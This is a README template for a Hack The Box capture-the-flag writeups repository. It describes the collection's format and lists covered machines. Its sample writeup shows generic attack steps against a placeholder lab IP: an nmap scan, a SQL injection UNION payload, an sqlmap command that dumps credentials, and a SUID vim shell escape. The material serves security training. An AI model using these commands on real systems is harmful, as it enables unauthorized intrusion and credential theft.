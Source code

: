 # 🚩 HTB Writeups Repository

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![GitHub Stars](https://img.shields.io/github/stars/yourusername/htb-writeups)](https://github.com/yourusername/htb-writeups/stargazers)
[![Open Issues](https://img.shields.io/github/issues/yourusername/htb-writeups)](https://github.com/yourusername/htb-writeups/issues)

A curated collection of Hack The Box machine writeups with detailed technical analysis and reproducible methodologies.

🔗 **Live Preview**: [yourwebsite.com/htb-writeups](https://yourwebsite.com) (optional)

## 📌 Features
- **Structured Documentation**: Consistent format for easy navigation
- **Technical Depth**: Vulnerability explanations with CWE/CVE references
- **Tool Integration**: Commands for popular tools like `nmap`, `Metasploit`, and `gobuster`
- **Visual Guides**: Screenshots and network diagrams
- **Searchable Tags**: Filter by OS, difficulty, and attack vectors

## 🖥️ Writeup Structure
Each machine writeup includes:
```markdown
# Machine Name (Difficulty: ⭐️ Easy)
- **IP**: 10.10.10.xx
- **OS**: Linux/Windows
- **Date Solved**: YYYY-MM-DD

## 📋 Table of Contents
1. [Recon](#-recon)
2. [Exploitation](#-exploitation)
3. [Privilege Escalation](#-privilege-escalation)
4. [Key Takeaways](#-key-takeaways)

## 🔍 Recon
```bash
nmap -sV -sC -oA nmap/initial 10.10.10.xx
```
**Findings**:
- Port 80: Apache 2.4.29 (Ubuntu)
- Port 22: OpenSSH 7.6p1

## 💻 Exploitation
### Vulnerability: SQL Injection (CWE-89)
**Steps**:
1. Identified vulnerable parameter `id` in `/products.php`
2. Crafted UNION-based payload:
```sql
' UNION SELECT 1,@@version,3-- -
```
3. Extracted credentials via SQLMap:
```bash
sqlmap -u "http://10.10.10.xx/products.php?id=1" --dump
```

## 🚀 Privilege Escalation
**Technique**: SUID Binary Abuse (GTFOBins)
```bash
find / -perm -4000 2>/dev/null
/usr/bin/vim.basic --command=':!/bin/sh'
```

## 🎯 Key Takeaways
- Always sanitize user input in web applications
- Monitor for unnecessary SUID binaries
- **MITRE ATT&CK**: T1190 (Exploit Public-Facing Application)

---

## COvered² Machines
![Catch](https://github.com/user-attachments/assets/16475ce5-7446-40f9-bb06-4ae1ff9d9a40)

![Code](https://github.com/user-attachments/assets/479c514e-0f01-462b-820f-14d881d4aece)

![Lame](https://github.com/user-attachments/assets/49530a10-3ed0-4b35-bb46-c325f83a912f)


![TheFrizz](https://github.com/user-attachments/assets/b66734d7-ddac-4458-83a7-ff52634429ec)

![WhiteRabbit](https://github.com/user-attachments/assets/cd8c0154-e35c-45c1-87c1-c4e7f82f0500)
